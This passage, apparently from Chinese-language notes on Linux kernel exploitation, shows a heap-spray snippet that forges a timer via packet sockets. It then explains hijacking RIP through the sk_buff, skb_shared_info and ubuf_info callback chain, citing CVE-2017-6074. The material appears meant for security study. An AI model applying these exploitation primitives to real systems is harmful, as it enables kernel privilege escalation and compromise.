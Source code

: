 ```c
	tp.tp_block_size = CONF_RING_FRAMES * getpagesize();
	tp.tp_block_nr = 1;
	tp.tp_frame_size = getpagesize();
	tp.tp_frame_nr = CONF_RING_FRAMES;
	tp.tp_retire_blk_tov = timeout;		// timeout = 500 (0.5s)
	setsockopt(timer[i], SOL_PACKET, PACKET_RX_RING, (void *)&tp, sizeof(tp));
}
// 堆喷伪造timer
char buffer[2048];
init_timer_buffer(&buffer[0], func, arg);
send(uh3->fds[0], buffer, 1536, 0);		// 1536=0x600
sleep(1); 								// 等待触发 
```

#### 11. [sk_buff](https://elixir.bootlin.com/linux/v4.9.12/source/include/linux/skbuff.h#L633) 线性数据区

**参考**： [CVE-2017-6074](https://www.anquanke.com/post/id/253478)

**size**：2048

**劫持RIP**：[sk_buff](https://elixir.bootlin.com/linux/v4.9.12/source/include/linux/skbuff.h#L633) -> [skb_shared_info](https://elixir.bootlin.com/linux/v4.9.12/source/include/linux/skbuff.h#L414) -> [ubuf_info](https://elixir.bootlin.com/linux/v4.9.12/source/include/linux/skbuff.h#L405) -> `callback`  注意`skb_shared_info`结构的偏移为`sk_buff->head+sk_buff->end`。

```c
struct sk_buff {
	union {
		struct {
			/* These two members must be first. */
			struct sk_buff		*next;
			struct sk_buff		*prev;
  ... ... 
	sk_buff_data_t		tail;
	sk_buff_data_t		end;
	unsigned char		*head,
				*data;														// <------------ (head+end) 指向 skb_shared_info 结构
	unsigned int		truesize;
	atomic_t		users;
};

struct skb_shared_info {
	unsigned char	nr_frags;
	__u8		tx_flags;
	unsigned short	gso_size;
	/* Warning: this field is not always filled in (UFO)! */
	unsigned short	gso_segs;
	unsigned short  gso_type;
	struct sk_buff	*frag_list;
	struct skb_shared_hwtstamps hwtstamps;
	u32		tskey;
	__be32          ip6_frag_id;
	atomic_t	dataref;
	void *		destructor_arg;											// <------------ 指向 ubuf_info 结构
	skb_frag_t	frags[MAX_SKB_FRAGS];
};

struct ubuf_info {
	void (*callback)(struct ubuf_info *, bool zerocopy_success);		// <------------ 待伪造的回调函数
	void *ctx;
	unsigned long desc;
};
```